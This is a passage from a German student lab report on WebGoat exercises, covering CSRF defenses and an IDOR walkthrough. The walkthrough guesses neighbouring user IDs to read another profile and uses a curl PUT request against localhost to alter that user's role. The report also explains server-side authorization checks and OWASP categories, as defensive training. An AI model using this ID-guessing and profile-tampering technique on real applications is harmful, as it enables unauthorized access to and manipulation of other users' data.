CSRF verletzt vor allem die **Integrity**, weil Aktionen im Namen eines echten Benutzers ausgefuehrt werden. Beispiele sind Passwort aendern, E-Mail aendern, Bewertung posten oder Einstellungen manipulieren.

#### 3. Warum reicht CORS nicht als CSRF-Schutz?

CORS steuert primaer, ob ein fremder Ursprung die Antwort im Browser lesen darf. Der Request selbst kann trotzdem gesendet werden, besonders bei einfachen Formular-Requests. Deshalb muss der Server die Anfrage aktiv absichern.

#### 4. Welche Schutzmassnahmen helfen?

- Zufallige CSRF-Tokens pro Session oder Formular
- `SameSite=Lax` oder `SameSite=Strict` fuer Cookies
- `Origin`- und `Referer`-Header serverseitig pruefen
- Kritische Aktionen nur per POST/PUT/DELETE mit Token erlauben
- Re-Authentifizierung fuer besonders kritische Aktionen

### CIA- und OWASP-Bezug

| Modell | Einordnung |
|---|---|
| CIA | CSRF verletzt hauptsaechlich Integrity, weil Aktionen ohne echte Zustimmung ausgelöst werden. |
| OWASP/WebGoat | WebGoat fuehrt CSRF unter `(A5) Security Misconfiguration`. |
| Schutzprinzip | Server darf nicht nur dem Cookie vertrauen, sondern muss die Absicht der Anfrage pruefen. |

---

## Teil E - Broken Access Control / IDOR

> [!danger]
> IDOR steht fuer **Insecure Direct Object Reference**. Die Anwendung verwendet eine direkte Objekt-ID, prueft aber nicht sauber, ob der eingeloggte Benutzer dieses Objekt ueberhaupt lesen oder bearbeiten darf.

### Ziel

In WebGoat sollte gezeigt werden, dass ein normal eingeloggter Benutzer ein fremdes Profil lesen und anschliessend per `PUT` veraendern kann.

Offizieller Auftrag:

- WebGoat `(A1) Broken Access Control -> Insecure Direct Object References`
- Bis Aufgabe 6 durcharbeiten
- Fremdes Profil per `curl -X PUT` veraendern
- Vier schriftliche Fragen beantworten

### Aufgabe 2 - Testlogin

In der IDOR-Lektion wurde zuerst die vorbereitete Testidentitaet verwendet:

```text
user: tom
pass: cat
```


*Abbildung 10: WebGoat bestaetigt den Login als `tom`.*

### Aufgabe 3 - Versteckte Attribute in der Response

Nach Klick auf **View Profile** zeigte WebGoat sichtbar nur:

```text
name: Tom Cat
color: yellow
size: small
```

Die rohe Server-Response enthielt aber mehr:

```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```

Die zwei versteckten Attribute waren:

```text
role,userId
```


*Abbildung 11: WebGoat bestaetigt `role,userId` als korrekte Antwort.*

### Aufgabe 4 - Eigenes Profil per direkter Objekt-Referenz

Aus der Response war die eigene ID bekannt:

```text
userId = 2342384
```

Daraus wurde der direkte Pfad gebildet:

```text
WebGoat/IDOR/profile/2342384
```


*Abbildung 12: Direktzugriff auf das eigene Profil per ID funktioniert.*

### Aufgabe 5 - Fremdes Profil lesen

Danach wurden nahe IDs getestet. Die eigene ID `2342384` war erlaubt, andere IDs gaben zunaechst nur Hinweise zurueck. Bei `2342388` wurde ein fremdes Profil gefunden:

```text
WebGoat/IDOR/profile/2342388
```

Rueckgabe:

```text
{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}
```

Damit wurde gezeigt, dass der Server nicht sauber prueft, ob `tom` das Profil von `Buffalo Bill` lesen darf.

### Aufgabe 5 - Fremdes Profil per PUT veraendern

Anschliessend wurde dieselbe Objekt-ID mit der Methode `PUT` veraendert. Der Request wurde auf der EC2-Instanz gegen `localhost` ausgefuehrt:

```bash
curl -i -X PUT "http://localhost:8080/WebGoat/IDOR/profile/2342388" \
  -H "Cookie: JSESSIONID=<session-cookie>" \
  -H "Content-Type: application/json" \
  -d '{"role":1,"color":"red","size":"large","name":"Buffalo Bill","userId":2342388}'
```

Ergebnis:

```json
{
  "lessonCompleted": true,
  "feedback": "Well done, you have modified someone else's profile (as displayed below)",
  "output": "{role=1, color=red, size=large, name=Buffalo Bill, userId=2342388}",
  "assignment": "IDOREditOtherProfile",
  "attemptWasMade": true
}
```

Der vollstaendige HTTP-Response ist zusaetzlich in `idor-put-curl-response.txt` gespeichert.

### Aufgabe 6 - Secure Object References

Die letzte Seite erklaert sichere Objekt-Referenzen und Access-Control-Regeln. Wichtig ist: Indirekte IDs koennen helfen, ersetzen aber keine serverseitige Autorisierungspruefung.


*Abbildung 13: Abschlussseite mit Access-Control-Matrix und Gegenmassnahmen.*

### Schriftliche Antworten zu IDOR

#### 1. Warum reicht es nicht, eine Ressource einfach nicht zu verlinken?

Nicht verlinken ist nur **Security through Obscurity**. Ein Angreifer kann URLs, IDs und API-Endpunkte erraten, aus Network-Requests ablesen oder automatisiert durchprobieren. Der Server muss jede Anfrage pruefen, auch wenn die Ressource nicht in der UI sichtbar ist.

#### 2. Wie haette die Applikation den IDOR-Angriff verhindern koennen?

Der Server muss bei jedem Zugriff pruefen, ob der eingeloggte Benutzer Eigentuemmer des angefragten Objekts ist oder eine passende Rolle besitzt. Fuer `GET /profile/2342388` und `PUT /profile/2342388` haette WebGoat pruefen muessen, ob `tom` wirklich auf Buffalo Bills Profil zugreifen darf. Wenn nicht: `403 Forbidden`.

#### 3. Unterschied horizontale und vertikale Privilegienerweiterung

**Horizontal** bedeutet: Ein Benutzer greift auf Daten eines anderen Benutzers mit gleicher oder aehnlicher Rolle zu. **Vertikal** bedeutet: Ein Benutzer erlangt hoehere Rechte, z.B. Admin-Funktionen. Dieses IDOR-Beispiel ist primaer horizontal, weil `tom` ein anderes Benutzerprofil lesen und bearbeiten konnte.

#### 4. OWASP-Kategorie

Broken Access Control gehoert zu **OWASP Top 10 2021 - A01: Broken Access Control**. Die Kategorie steht auf Platz 1, weil Zugriffskontrollfehler sehr haeufig sind und oft direkt zu Datenabfluss, Manipulation oder Rechteausweitung fuehren.

### CIA-Bezug

| Schutzziel | Risiko durch IDOR |
|---|---|
| Confidentiality | Fremde Profile koennen gelesen werden. |
| Integrity | Fremde Profile koennen manipuliert werden. |
| Availability | Indirekt moeglich, wenn geloeschte oder manipulierte Objekte Geschaeftsprozesse stoeren. |

---

## Offene Punkte fuer KN02

| Teil | Naechster Schritt |
|---|---|
| F - JWT | WebGoat `(A7) Identity & Auth Failure` -> `JWT.lesson` bis Aufgabe 10 bearbeiten und dokumentieren |

> [!todo]
> Nach E und F muss diese Datei erweitert und erneut committed/gepusht werden.

---

## Checkliste

- [x] WebGoat erreichbar
- [x] Swap eingerichtet, damit WebGoat nicht mehr wegen RAM crasht
- [x] XSS live geprueft
- [x] Stored XSS live geprueft
- [x] CSRF live geprueft
- [x] KN02 A-D dokumentiert
- [x] KN02 E IDOR bearbeitet und dokumentiert
- [ ] KN02 F JWT bearbeiten
- [ ] KN02 final auf GitHub und GitLab pushen
